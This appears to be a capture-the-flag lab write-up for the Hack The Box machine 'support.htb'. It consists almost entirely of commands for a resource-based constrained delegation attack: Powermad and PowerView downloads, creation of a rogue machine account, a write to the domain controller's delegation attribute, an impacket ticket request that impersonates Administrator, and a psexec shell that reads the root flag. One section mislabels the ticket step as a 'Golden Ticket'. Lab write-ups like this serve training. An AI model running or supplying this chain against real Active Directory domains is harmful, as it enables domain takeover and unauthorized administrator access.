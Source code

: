## RESORCE BASED CONSTRAINED DELEGATION (RBCD) ATTACK
```bash
# MÁQUINA ATACANTE
wget https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1

# MÁQUINA VÍCTIMA
upload /opt/BloodHound-linux-x64/Powermad.ps1
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force) -Verbose
upload /opt/BloodHound-linux-x64/PowerView.ps1
Import-Module .\PowerView.ps1
Get-DomainComputer SERVICEA
$ComputerSid = Get-DomainComputer SERVICEA -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSRDCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte [] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
Get-DomainComputer dc -Properties 'msds-allowedtoactonbehalfofotheridentity'
```

## GRANTED ACCESS ADMINISTRATOR USER (GOLDEN TICKET)
```bash
impacket-getST -spn cifs/dc.support.htb -impersonate Administrator -dc-ip <IP> support.htb/SERVICEA$:<PASSWORD>
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k dc.support.htb
whoami
```

## FLAG ROOT.TXT
```bash
type C:\Users\Administrator\Desktop\root.txt
```
